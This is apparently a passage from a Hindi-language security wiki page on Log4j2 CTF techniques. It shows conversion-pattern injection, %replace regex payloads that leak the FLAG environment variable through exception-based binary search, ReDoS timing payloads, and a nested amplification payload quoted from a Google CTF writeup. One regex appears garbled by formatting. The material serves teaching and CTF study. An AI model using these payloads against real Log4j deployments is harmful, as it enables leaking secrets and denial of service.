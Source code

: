 ### Conversion Patterns Exceptions

बस उल्लेख करने के लिए, आप नए [**conversion patterns**](https://logging.apache.org/log4j/2.x/manual/layouts.html#PatternLayout) भी इंजेक्ट कर सकते हैं और अपवादों को ट्रिगर कर सकते हैं जो `stdout` पर लॉग किए जाएंगे। उदाहरण के लिए:

![](<../../.gitbook/assets/image (683).png>)

यह त्रुटि संदेश के अंदर डेटा निकालने के लिए उपयोगी नहीं पाया गया, क्योंकि लुकअप को रूपांतरण पैटर्न से पहले हल नहीं किया गया था, लेकिन यह अन्य चीजों जैसे पहचानने के लिए उपयोगी हो सकता है।

### Conversion Patterns Regexes

हालांकि, कुछ **conversion patterns जो regexes का समर्थन करते हैं** का उपयोग करके लुकअप से जानकारी निकालना संभव है, regexes का उपयोग करके और **बाइनरी सर्च** या **समय आधारित** व्यवहारों का दुरुपयोग करके।

* **Binary search via exception messages**

रूपांतरण पैटर्न **`%replace`** का उपयोग **सामग्री** को **स्ट्रिंग** से **बदलने** के लिए किया जा सकता है, यहां तक कि **regexes** का उपयोग करके। यह इस तरह काम करता है: `replace{pattern}{regex}{substitution}`\
इस व्यवहार का दुरुपयोग करते हुए आप **स्ट्रिंग के अंदर कुछ भी मेल खाने पर अपवाद को ट्रिगर करने के लिए बदलने** का काम कर सकते हैं (और यदि यह नहीं मिला तो कोई अपवाद नहीं) इस तरह:
```bash
%replace{${env:FLAG}}{^CTF.*}{${error}}
# The string searched is the env FLAG, the regex searched is ^CTF.*
## and ONLY if it's found ${error} will be resolved with will trigger an exception
```
* **समय आधारित**

जैसा कि पिछले अनुभाग में उल्लेख किया गया था, **`%replace`** **regexes** का समर्थन करता है। इसलिए यह संभव है कि [**ReDoS पृष्ठ**](../regular-expression-denial-of-service-redos.md) से पेलोड का उपयोग करके **टाइमआउट** उत्पन्न किया जाए यदि ध्वज पाया जाता है।\
उदाहरण के लिए, `%replace{${env:FLAG}}{^(?=CTF)((.`_`)`_`)*salt$}{asd}` जैसा एक पेलोड उस CTF में **टाइमआउट** को ट्रिगर करेगा।

इस [**लेख**](https://intrigus.org/research/2022/07/18/google-ctf-2022-log4j2-writeup/) में, ReDoS हमले का उपयोग करने के बजाय, एक **अम्लीकरण हमला** का उपयोग किया गया था ताकि प्रतिक्रिया में समय का अंतर उत्पन्न किया जा सके:

> ```
> /%replace{
> %replace{
> %replace{
> %replace{
> %replace{
> %replace{
> %replace{${ENV:FLAG}}{CTF\{" + flagGuess + ".*\}}{#############################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> ```
>